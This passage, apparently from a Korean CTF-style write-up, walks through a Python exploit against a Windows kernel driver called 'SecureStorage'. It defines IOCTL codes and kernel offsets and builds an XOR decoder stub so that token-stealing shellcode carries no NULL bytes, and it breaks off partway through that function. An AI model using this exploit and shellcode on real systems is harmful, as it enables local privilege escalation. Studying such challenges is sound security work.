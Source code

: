 저는 이미 KePwnLib.py에 `tokenStealingShellcodeForWin10_1809`란 이름으로 정의해둔 쉘코드를 사용했는데, 중간에 NULL가 들어가지 않도록 간단한 XOR encoder를 가지고 아래와 같은 익스플로잇 코드를 작성했습니다.

( 그리고 이유는 알 수 없지만, 분명 [NonPagedPool 객체 영역은 실행권한이 없다](https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/no-execute-nonpaged-pool?redirectedfrom=MSDN)고 알고 있었는데 `ExAllocatePoolWithTag(NonPagedPool, 0x1000)`으로 할당한 영역에 RWX 권한이 있었습니다 )

```python
from KePwnLib import *
import sys

BABY_IOCTL_CODE1 = 0x226203 # user -> kernel
BABY_IOCTL_CODE2 = 0x226207 # kernel -> user
BABY_IOCTL_CODE3 = 0x22620B # jmp to handler

DRIVER_NAME = "\\\\.\\SecureStorage"
DEVICE_NAME = "SecureDrv"

ExAllocatePoolWithTag_offset = 0x348030
func_ptr_offset = 0x4050

# edit for exploit
DeviceIoControl.argtypes = [
	HANDLE,
	DWORD,
	c_ulonglong, # LPVOID,
	DWORD,
	LPVOID,
	DWORD,
	POINTER(DWORD),
	LPVOID
]

# for shellcode without NULL byte
def xored_shellcode(sc):
    xor_byte = 0
    for i in range(1, 256):
        xored_sc = "".join(chr(ord(x) ^ i) for x in sc)
        if "\x00" not in xored_sc:
            xor_byte = i
            break

    decoder = ""
    decoder += "\x48\x31\xc9" # xor rcx, rcx
    if len(xored_sc) < 0x100:
        decoder += "\xb1" + p8(len(xored_sc))      # mov cl, len(xored_sc)
    elif (len(xored_sc) & 0xFF) == 0:
        xored_sc += chr(0x90 ^ xor_byte)
        decoder += "\x66\xB9" + p16(len(xored_sc)) # mov cx, len(xored_sc)
    else:
        decoder += "\x66\xB9" + p16(len(xored_sc)) # mov cx, len(xored_sc)

    xor_start = len(pusha()) + len(decoder) + 14
    
    # decode_loop:
    decoder += "\x8a\x58" + p8(xor_start) # mov bl, byte ptr[rax+xor_start]
    decoder += "\x80\xf3" + p8(xor_byte)  # xor bl, xor_byte
    decoder += "\x88\x58" + p8(xor_start) # mov byte ptr[rax+xor_start], bl
    decoder += "\x48\xFF\xC0"             # inc rax
    decoder += "\xE2\xF2"                 # loop decode_loop
    
    result = ""
    result += "\x90"     # NonPagedPool object address always like 0xXXXX~00, need to terminate that NULL
    result += pusha()    # pusha code for register backup before XOR decoding
```